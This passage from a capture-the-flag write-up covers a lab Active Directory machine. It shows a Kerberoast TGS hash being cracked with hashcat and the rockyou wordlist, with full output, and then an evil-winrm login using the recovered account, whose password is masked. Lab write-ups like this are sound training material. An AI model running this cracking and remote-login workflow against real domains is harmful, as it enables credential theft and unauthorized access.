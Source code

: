### Identifying and cracking the hash

```
Most Likely 
Kerberos 5 TGS-REP etype 23, HC: 13100 JtR: krb5tgs Summary: Used in Windows Active Directory.
```

```
hashcat -m 13100 keberoast.hash /usr/share/wordlists/rockyou.txt
```

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$VULNNET-RST.local/enterprise-core-vn*$[REDACTED]
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$V...366aeb
Time.Started.....: Sat May 15 09:07:13 2021 (10 secs)
Time.Estimated...: Sat May 15 09:07:23 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   395.9 kH/s (6.41ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4112384/14344385 (28.67%)
Rejected.........: 0/4112384 (0.00%)
Restore.Point....: 4104192/14344385 (28.61%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ryannb<3 -> rutie12

Started: Sat May 15 09:07:02 2021
Stopped: Sat May 15 09:07:24 2021
```

## Logging in 

Now that we have successfully obtained the credentials, we can log in and retrieve the first flag. (Note that I was unable to log in and had to restart the machine, so I have a new IP address assigned to me for the room)

```
evil-winrm -u 'enterprise-core-vn' -p '***************' -i $IP
```

After this, we won't find much here. We'll have to start the process of enumerating SMB with the current login and go from there.

## Enumerating
